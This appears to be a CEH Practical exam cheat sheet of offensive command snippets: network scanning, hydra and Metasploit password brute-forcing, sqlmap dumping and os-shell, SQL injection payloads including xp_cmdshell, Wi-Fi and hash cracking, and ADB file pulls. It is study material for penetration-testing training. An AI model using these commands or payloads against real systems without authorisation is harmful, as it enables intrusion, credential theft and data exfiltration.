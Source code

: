 # Scanning

  
## Netdiscover
<details>
  <summary>Netdiscover </summary>
```console
netdiscover -r x.x.x.1/24
```
</details>
## Nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# Credentials SMB Cracking

## Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
# Bruteforce SSH, TELNET, FTP  

## SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
## FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt
```

# Vulnerability Scanning 

##  Nessus
```console
Nessus runs on https[:]//localhost[:]8834
```

##  nikto -h 
```console

```
# Hidden text

## Snow

```console
snow -C -p "magic" readme2.txt
```

## steghide 
```console
```

# WIRESHARK

```console
To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21
```

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

# SQL 

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

# PASSWORD CRACKING 

## john

```console
john --single --format=md5crypt crack.txt
```

# WIFI ENCYRPTION CRACKING 
```console
aircrack-ng -w rockyou.txt capture-01.cap
```
# VERACRYPT 


# CUSTOM WORDLIST 

# MOBILE 

## ADB
```console
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

== resources ==

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

